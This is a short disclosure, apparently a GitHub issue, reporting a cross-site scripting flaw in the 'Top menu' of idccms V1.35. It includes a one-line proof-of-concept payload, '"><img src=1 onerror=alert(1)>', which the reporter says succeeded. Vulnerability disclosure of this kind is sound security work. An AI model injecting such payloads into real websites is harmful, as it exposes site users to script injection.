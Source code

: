 
target:http://idccms.com/
version: V1.35

There is Cross-Site Scripting (XSS)  vulnerability within the 'Top menu' .

![图片1](1.png)

poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![图片](2.png)
